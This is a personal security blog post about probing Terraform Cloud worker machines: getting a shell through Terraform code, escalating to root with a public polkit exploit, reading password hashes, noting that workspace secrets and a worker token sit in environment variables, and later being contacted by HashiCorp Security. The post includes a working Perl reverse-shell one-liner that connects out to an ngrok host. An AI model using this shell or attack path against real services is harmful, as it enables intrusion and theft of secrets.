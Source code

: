 # Intro

I am writing the blog a few months after the fact so some details and screenshots were lost along the way. 

I am a big fan of Terraform and more recently Terraform Enterprise (TFE). TFE offers free accounts for users which I use to manage my personal projects.

Using a remote TFE workspaces comes with many benefits but to me best benefits is state management and CI/CD. Simply connect your repo to TFE and commit to main and you terraform code executes. 

This got me thinking, I am running code on another persons machine....

## The starting mischief 

Okay so we can run code on another machine but where does that get us? 

I started thinking a way I can get a shell to explore the Hasicorp TFE workers. There is a great blog by Alxk 
https://alex.kaskaso.li/post/terraform-plan-rce which goes over several methods you can execute code at various stagings in TF. 

The easiest and most simple way is to use an external provider and run bash payload. For some reason at the time I used a perl payload. If I remember correctly it was because it worked out the box...sorry lol.

To make things easy I used ngrok to proxy the connection back to my local host. If you worried about opsec please do not do this. 

```bash
#!/bin/sh

perl -e 'use Socket;$i="4.tcp.ngrok.io";$p=19960;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("sh -i");};'
```

## Poking around

Once on the host we are running as user Terraform on Ubuntu 18.04 ... a little outdated if you ask me HashiCorp.

We all love lazy hacking so one of the first things I did was check the sudo version. This at this time PolKit had only been out for few day (weeks?) and I saw version `Sudo version 1.8.21p2`. Light work, finding a quick public exploit on github and we have root.

With root I start poking around the host for any type of configuration files, ssh keys, or credentials that might be useful for escalation but had no luck.

## Cross Persistance? 

My main question was, can I access other users runs? 

Without knowing exactly how the system works, there are some assumptions to be made. I know the hosts are ephemeral and by hitting the AWS metadata API I can see I am  running on a t3a.small. So ephemeral EC2 hosts...interesting. 

I started to wonder, Are hosts being reused or are they delete after a single run? 

To test this I adding a cron on an instance to callback and waited but, it never did. 

I gave up on this idea and started to look elsewhere.
## Finding the Terraform user hash

Using the root access I check /etc/shadowd and found the password hash for the Terraform users. 

Then I check several instances it was clear the all runners share the same user hash, I didn't try to crack it.

While this is a cool find, there is no networking between hosts or externally so the user has is not useful in this case. I still reported it to HashiCorp. 

## Environment Variables 

This is not really an exploit but a behavior of TFE. If you add secrets or share in a TFE workspace the secrets will be stored in the ENVs. These secrets will be present even if not used by the deployment. This could be useful for exfil in the future if you are able to run TF code. 

Another interesting note is that all workers authenticate to the workspace using an ATLAS_TOKEN, stealing this token will give you temporary access to the workspace. I did not explore exactly what permissions this token had because I was asked by Hashicorp to stop...

I also tried using accessing AWS role credentials using the internal metadata API but there was no role attached to the worker instance, a dead end.

## Getting Caught 

To be clear I was doing all this testing in my own environment in an isolated account with good intentions. That being said it likely against the terms and services. I do not recommend, in any case doing unauthorize testing against a service. 

I called it a night and when I woke up, I had a polite email from Hashicorp.

```bash
Hi there!

We noticed that you are interested in our Terraform Cloud worker configuration and saw that you were active late last night / this morning.

Organization Name: ruse

Workspace Name: testing

While not an exposure within the context of our security model, the type of activity that we observed in your account (specifically, escalating access on an isolated worker using the recent polkit vulnerability) violates the Terms of Use for Terraform Cloud. Normally this would result in a suspension of your Terraform organization and account, but we wanted to reach out, and see if you would be interested in chatting more about Terraform Cloud. We also ask that you refrain from seeking access to AWS metadata, exploiting CVE-2021-4034, etc. and, instead, invite you to have a chat.

Looking forward to hearing back from you.

Best,

HashiCorp Security

P.S. We are also hiring (https://www.hashicorp.com/jobs/security) in case you are interested in taking your security knowledge and applying it more directly to our products as part of the HashiCorp team :).
```

I was able to meet with their security team and walk through what I was trying and possible attack paths. The security team was very nice and shared some of the system design decisions already take to mitigate those attack paths. 

Seriously shout-out to Hashicorp for being so cool. 

At the end of the day no real vulns (a good thing) came from this exploration but it was fun at the very least. There is more exploration to be done in this area but that will have to wait for an authorized time. ;)